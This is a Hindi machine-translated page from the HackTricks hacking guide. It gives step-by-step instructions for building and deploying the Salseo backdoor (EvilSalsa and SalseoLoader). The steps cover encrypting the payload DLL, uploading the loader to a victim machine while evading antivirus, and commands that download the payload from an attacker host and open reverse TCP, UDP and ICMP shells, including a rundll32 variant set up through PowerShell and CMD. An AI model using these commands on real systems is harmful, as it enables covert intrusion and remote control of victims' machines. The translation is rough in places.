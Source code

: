 # सलसेओ

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## बाइनरी को कंपाइल करना

गिटहब से स्रोत कोड डाउनलोड करें और **EvilSalsa** और **SalseoLoader** को कंपाइल करें। कोड को कंपाइल करने के लिए आपको **Visual Studio** इंस्टॉल करना होगा।

इन परियोजनाओं को उस विंडोज बॉक्स के लिए कंपाइल करें जहां आप उन्हें उपयोग करने जा रहे हैं (यदि विंडोज x64 का समर्थन करता है तो उन्हें उस विशेषता के लिए कंपाइल करें)।

आप **Visual Studio** में **"Platform Target"** में **वाम "Build" टैब** में **वार्चुअल विशेषता** का चयन कर सकते हैं।

(\*\*यदि आप इस विकल्प को नहीं ढूंढ सकते तो **"प्रोजेक्ट टैब"** में जाएं और फिर **"\<प्रोजेक्ट नाम> गुणवत्ता"** में जाएं)

![](<../.gitbook/assets/image (132).png>)

फिर, दोनों परियोजनाएं बनाएं (बिल्ड -> समाधान बनाएं) (लॉग्स के अंदर एक्जीक्यूटेबल का पथ दिखाई देगा):

![](<../.gitbook/assets/image (1) (2) (1) (1) (1).png>)

## बैकडोर को तैयार करें

सबसे पहले, आपको **EvilSalsa.dll** को एन्कोड करने की आवश्यकता होगी। इसे करने के लिए, आप **encrypterassembly.py** पायथन स्क्रिप्ट का उपयोग कर सकते हैं या परियोजना **EncrypterAssembly** को कंपाइल कर सकते हैं:

### **पायथन**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows

विंडोज़
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
ठीक है, अब आपके पास सारे जरूरी चीजें हैं जिनकी मदद से आप सारे सालसेओ चीज को क्रियान्वित कर सकते हैं: **एन्कोडेड EvilDalsa.dll** और **SalseoLoader का बाइनरी।**

**SalseoLoader.exe बाइनरी को मशीन पर अपलोड करें। इन्हें किसी भी AV द्वारा पहचाना नहीं जाना चाहिए...**

## **बैकडोर को क्रियान्वित करें**

### **TCP रिवर्स शैल प्राप्त करना (HTTP के माध्यम से एन्कोडेड dll डाउनलोड करना)**

याद रखें कि रिवर्स शैल सुनने वाले के रूप में एनसी शुरू करने और एक HTTP सर्वर शुरू करने के लिए।
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **एक UDP रिवर्स शैल (SMB के माध्यम से एन्कोडेड dll डाउनलोड करना)**

याद रखें कि रिवर्स शैल सुनने वाले रूप में एनसी को शुरू करें, और एक SMB सर्वर को एन्कोडेड evilsalsa की सेवा करने के लिए (impacket-smbserver)।
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **एक ICMP रिवर्स शैल (एंकोडेड डीएल पहले से ही पीड़ित के अंदर)**

**इस बार आपको रिवर्स शैल प्राप्त करने के लिए क्लाइंट में एक विशेष उपकरण की आवश्यकता है। डाउनलोड करें:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **ICMP जवाब अक्षम करें:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### क्लाइंट को निष्पादित करें:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### पीड़ित के अंदर, हम salseo चीज़ को चलाते हैं:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## कॉंपाइलिंग SalseoLoader को DLL के रूप में मुख्य फ़ंक्शन को निर्यात करना

विज़ुअल स्टूडियो का उपयोग करके SalseoLoader परियोजना खोलें।

### मुख्य फ़ंक्शन से पहले जोड़ें: \[DllExport]

![](<../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

### इस परियोजना के लिए DllExport इंस्टॉल करें

#### **उपकरण** --> **NuGet पैकेज प्रबंधक** --> **समाधान के लिए NuGet पैकेज स्थापित करें...**

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

#### **DllExport पैकेज के लिए खोजें (ब्राउज़ टैब का उपयोग करके), और स्थापित करें (और पॉपअप को स्वीकार करें)**

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

आपके परियोजना फ़ोल्डर में फ़ाइलें दिखाई देने लगी हैं: **DllExport.bat** और **DllExport\_Configure.bat**

### **U**ninstall DllExport

**अनइंस्टॉल** दबाएं (हाँ, यह अजीब है लेकिन मुझ पर भरोसा करें, यह आवश्यक है)

![](<../.gitbook/assets/image (5) (1) (1) (2) (1).png>)

### **विज़ुअल स्टूडियो बंद करें और DllExport\_configure को चलाएं**

बस **बंद** करें विज़ुअल स्टूडियो

फिर, अपने **SalseoLoader फ़ोल्डर** पर जाएं और **DllExport\_Configure.bat** को चलाएं

**x64** का चयन करें (यदि आप इसे x64 बॉक्स के अंदर उपयोग करने जा रहे हैं, तो यह मेरा मामला था), **System.Runtime.InteropServices** का चयन करें (**DllExport के लिए नेमस्पेस** के अंदर) और **Apply** दबाएं

![](<../.gitbook/assets/image (7) (1) (1) (1) (1).png>)

### **परियोजना को फिर से विज़ुअल स्टूडियो के साथ खोलें**

**\[DllExport]** को अब और त्रुटि के रूप में नहीं चिह्नित किया जाना चाहिए

![](<../.gitbook/assets/image (8) (1).png>)

### समाधान को बिल्ड करें

**आउटपुट प्रकार = क्लास लाइब्रेरी** का चयन करें (परियोजना --> SalseoLoader गुण --> एप्लिकेशन --> आउटपुट प्रकार = क्लास लाइब्रेरी)

![](<../.gitbook/assets/image (10) (1).png>)

**x64 प्लेटफ़ॉर्म** का चयन करें (परियोजना --> SalseoLoader गुण --> बिल्ड --> प्लेटफ़ॉर्म लक्ष्य = x64)

![](<../.gitbook/assets/image (9) (1) (1).png>)

समाधान को **बिल्ड** करने के लिए: बिल्ड --> समाधान बिल्ड करें (नए DLL का पथ आउटपुट कंसोल के अंदर दिखाई देगा)

### उत्पन्न Dll का परीक्षण करें

Dll को जहां परीक्षण करना चाहते हैं, वहां कॉपी और पेस्ट करें।

चलाएं:
```
rundll32.exe SalseoLoader.dll,main
```
यदि कोई त्रुटि प्रकट नहीं होती है, तो संभावतः आपके पास एक कार्यात्मक DLL है!!

## DLL का उपयोग करके शैल प्राप्त करें

**HTTP** **सर्वर** का उपयोग करना न भूलें और **nc** **सुनने वाला** सेट करें

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD

### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ</strong>!</summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
